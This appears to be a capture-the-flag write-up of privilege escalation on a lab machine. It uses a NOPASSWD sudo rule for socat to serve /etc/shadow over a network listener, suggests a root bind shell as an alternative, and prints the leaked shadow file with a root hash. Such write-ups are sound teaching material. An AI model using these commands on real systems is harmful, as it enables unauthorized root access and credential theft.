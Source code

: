 ok! we got our-self's a shell!
lets so a basic enum
 
# whoami
'''
falconfeast
'''
 
# groups
'''
falconfeast adm cdrom sudo dip plugdev lxd lpadmin sambashare
'''
 
# sudo -l
'''
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
 
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
 
'''
 
ok so we do have extended permissions.
we are part of the groups "adm cdrom sudo dip plugdev lxd lpadmin sambashare"
and we do have a permission to sudo on the socat program (very similar to netcat but with a different syntax)
 
a quick search on the web and i found this line of code: "socat TCP4-LISTEN:4444,reuseaddr  OPEN:[$file]"
(alternatively we can use this line to get a permanent shell and OWN the machine "sudo socat TCP4-LISTEN:4444,reuseaddr  SYSTEM:/bin/sh")
TCP4-LISTEN = use ipv4 listiner
4444 = our port (simmilarly to netcat)
reuseaddr = use this user machine ip address
OPEN: = part of the socat abillitis to open files (use SYSTEM to execute files)
[$file] = the file we want to read
 
our syntax will be
 
# sudo socat TCP4-LISTEN:4444,reuseaddr OPEN:/etc/shadow
 
# (kali machine) netcat 10.10.120.193 4444
'''
root:$6$mFbzBSI/$c80cICObesNyF9XxbF6h6p6U2682MfG5gxJ5KtSLrGI8766/etwzBvppTuug6aLoltiSmeqdIaEUg6f/NLYDn0:18283:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::